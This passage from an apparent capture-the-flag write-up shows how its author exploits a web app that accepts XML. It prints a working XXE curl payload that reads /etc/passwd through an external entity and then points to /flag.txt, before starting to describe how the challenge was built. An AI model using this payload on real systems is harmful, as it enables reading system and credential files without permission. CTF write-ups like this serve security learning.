 changing the content-type header we see that the app accepts xml

![curl](https://github.com/pop-eax/blog/raw/gh-pages/images/SpecialOrder/curl.png)

so let's send an xxe payload
```bash
curl 'http://ip/customize' \
      -H 'Content-Type: application/xml' \
      -H 'Cookie: session=sessionCookie' \
      --data-binary '<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [  <!ELEMENT foo ANY ><!ENTITY xxe SYSTEM "file:///etc/passwd" >]><root><color>&xxe;</color><size>20px</size></root>'
```

![passwd](https://github.com/pop-eax/blog/raw/gh-pages/images/SpecialOrder/passwd.png)

now just read /flag.txt and done :)

## building the challenge

I took some time to imagine how the challenge should be.
when I thought about coding it, I saw it as a huge problem and I got frustrated
and thought I can't make it on time or I can't even do it 
